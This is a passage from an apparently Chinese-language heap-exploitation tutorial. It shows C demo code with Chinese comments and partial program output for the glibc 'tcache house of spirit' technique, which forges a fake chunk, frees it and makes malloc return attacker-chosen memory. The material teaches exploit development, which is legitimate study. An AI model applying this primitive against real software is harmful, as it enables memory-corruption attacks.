 ```
    //先调用一次malloc来设置内存
    fprintf(stderr, "Calling malloc() once so that it sets up its memory.n");
    malloc(1);

    //想象一下，现在我们覆写一个指针来指向我们的fake chunk区域
    fprintf(stderr, "Let's imagine we will overwrite 1 pointer to point to a fake chunk region.n");
    unsigned long long *a; //pointer that will be overwritten
    unsigned long long fake_chunks[10]; //fake chunk region

    //该区域包括一个fake chunk
    fprintf(stderr, "This region contains one fake chunk. It's size field is placed at %pn", &amp;fake_chunks[1]);

    //此chunk的size必须在是符合tcache大小的即chunk的size要小于0x410，这也就意味着我们malloc的size要小于0x408(在x64位上。而我们的PREV_INUSE(lsb)位在tcache chunks中是被忽略了的，但是另外两个标志位会引发一些问题，他们是IS_MAPPED和NON_MAIN_ARENA
    fprintf(stderr, "This chunk size has to be falling into the tcache category (chunk.size &lt;= 0x410; malloc arg &lt;= 0x408 on x64). The PREV_INUSE (lsb) bit is ignored by free for tcache chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.n");

    //要注意的是这个也必须是下一次malloc请求的size，会是一个区间，举一个例子，在x64上，0x30-0x38都将被防到0x40中，因此他们最后使用malloc的参数
    fprintf(stderr, "... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. n");
    fake_chunks[1] = 0x40; // this is the size

    //现在我们将用有着第一个fake chunk地址的fake chunk与来覆写我们的指针
    fprintf(stderr, "Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.n", &amp;fake_chunks[1]);

    //要注意的是我们chunk的内存地址将会以16字节对齐
    fprintf(stderr, "... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.n");

    a = &amp;fake_chunks[2];

    //此时释放被覆写的指针
    fprintf(stderr, "Freeing the overwritten pointer.n");
    free(a);

    //现在我们再malloc就会返回我们的fake chunk了
    fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!n", &amp;fake_chunks[1], &amp;fake_chunks[2]);
    fprintf(stderr, "malloc(0x30): %pn", malloc(0x30));
}
```

### <a class="reference-link" name="%E7%A8%8B%E5%BA%8F%E8%BF%90%E8%A1%8C%E7%BB%93%E6%9E%9C"></a>程序运行结果

```
This file demonstrates the house of spirit attack on tcache.
It works in a similar way to original house of spirit but you don't need to create fake chunk after the fake chunk that will be freed.
You can see this in malloc.c in function _int_free that tcache_put is called without checking if next chunk's size and prev_inuse are sane.
(Search for strings "invalid next size" and "double free or corruption")

Ok. Let's start with the example!.

Calling malloc() once so that it sets up its memory.
Let's imagine we will overwrite 1 pointer to point to a fake chunk region.
This region contains one fake chunk. It's size field is placed at 0x7ffcb22034d8
```